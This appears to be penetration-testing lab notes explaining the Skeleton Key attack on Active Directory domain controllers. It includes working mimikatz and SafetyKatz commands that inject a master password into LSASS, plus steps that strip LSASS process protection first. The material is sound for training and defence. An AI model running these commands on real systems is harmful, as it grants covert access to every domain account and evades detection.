 # Skeleton Key

Skeleton key is a persistence attack used to set a master password on one or multiple Domain Controllers. 

The master password can then be used to authenticate as any user in the domain while they can still authenticate with their original password. It makes detecting this attack a difficult task since it doesn't disturb day-to-day usage in the domain.

Skeleton key injects itself into the LSASS process of a Domain Controller to create the master password. It requires Domain Admin rights and SeDebugPrivilege on the target (which are given by default to domain admins).

This attack currently supports: NTLM and Kerberos (RC4 only) authentications

misc::skeleton injects a "Skeleton Key" into the LSASS process on the domain controller. A "master password" can then be used to authenticate as any domain user, while domain users can authenticate with their own password. The default skeleton key password is mimikatz.

```
mimikatz "privilege::debug" "misc::skeleton"
```

```
# Use the below command to inject a skeleton key (password would be mimikatz) on a Domain Controller of choice.  DA privileges required

SafetyKatz.exe '"privilege::debug" "misc::skeleton"' -ComputerName dcorp-dc.dollarcorp.moneycorp.local
```

```
mimikatz # privilege::debug
mimikatz # !+
mimikatz # !processprotect /process:lsass.exe /remove
mimikatz # misc::skeleton
mimikatz # !-
```